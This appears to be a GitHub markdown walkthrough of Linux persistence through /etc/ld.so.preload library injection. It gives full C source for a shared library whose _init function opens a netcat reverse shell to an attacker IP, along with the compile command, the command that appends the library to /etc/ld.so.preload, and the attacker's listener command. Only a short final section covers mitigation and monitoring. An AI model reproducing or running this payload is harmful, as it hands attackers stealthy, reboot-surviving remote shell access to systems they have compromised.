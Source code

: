 # Library Injection via `/etc/ld.so.preload` File

This technique exploits the `/etc/ld.so.preload` file on Linux systems to inject custom libraries for code execution and persistence across reboots.

---

### Description

This attack leverages the `/etc/ld.so.preload` file to inject a shared library that gets loaded with every dynamically linked process. By adding a custom library path to `/etc/ld.so.preload`, an attacker can execute arbitrary code whenever any new process is started.

- **How it works**: The dynamic linker (`ld.so`) checks `/etc/ld.so.preload` during system startup and loads any libraries listed there before the standard libraries. This allows attackers to run malicious code with the privileges of the calling process.

- **Impact**: Attackers with escalated privileges can use this method for privilege escalation, data exfiltration, or to silently execute malicious activities. This persistence method survives system reboots and user logins as long as the malicious library remains in the specified path and `/etc/ld.so.preload` is not modified.

---

## Detailed Proof of Concept (PoC)

Let’s break down the steps to exploit this technique, including preparation, library creation, injection into `/etc/ld.so.preload`, and execution.

### Step 1: Understanding the Exploit

- **Objective**: Achieve persistence on a Linux system by injecting a malicious shared library using `/etc/ld.so.preload`.

- **Mechanism**: The dynamic linker (`ld.so`) checks `/etc/ld.so.preload` during system startup and loads any libraries listed there. An attacker can modify this file to execute arbitrary code when any process starts.

---

### Step 2: Creating a Malicious Shared Library

First, create a custom shared library that will be injected into processes. This library can contain malicious code, such as a reverse shell, keylogger, or other persistent malware.

#### Code for a Malicious Shared Library (Example: Reverse Shell)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}

Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
```bash
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
```
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

### Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

#### 1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

### Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:

ls
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

### Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:

nc -lvp 4444
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

### Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

### Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:

sed -i '/reverse_shell.so/d' /etc/ld.so.preload
Delete the malicious shared library:

rm /path/to/reverse_shell.so
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

